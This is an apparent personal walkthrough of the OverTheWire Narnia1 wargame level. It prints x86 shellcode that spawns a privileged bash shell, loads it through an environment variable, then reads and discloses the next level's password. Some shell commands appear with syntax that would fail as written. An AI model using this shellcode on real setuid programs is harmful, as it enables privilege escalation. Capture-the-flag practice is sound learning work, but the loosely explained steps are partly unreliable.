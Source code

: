 # Narnia1 (OverTheWire)

immediately look at the source code and see that it wants us to put something executable in the enviroment variable EGG

use printenv and see that EGG doesn't exist

first tried to set EGG to /bin/bash with `EGG='/bin/bash'` and `export EGG`, but program seg faults. 

so it's not executing correctly. let's try some shell code instead

`EGG = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`

`export EGG`

still seg faults. turns out it only thinks it's executable if there's a $ in the front.

`EGG = $"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`

`export EGG`

still wrong. a last ditch attempt: 

`EGG = $'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'`

`export EGG`

it worked! whoami results in narnia2. cd into /etc/narnia_pass and cat narnia2 to the get the narnia2 password: nairiepecu
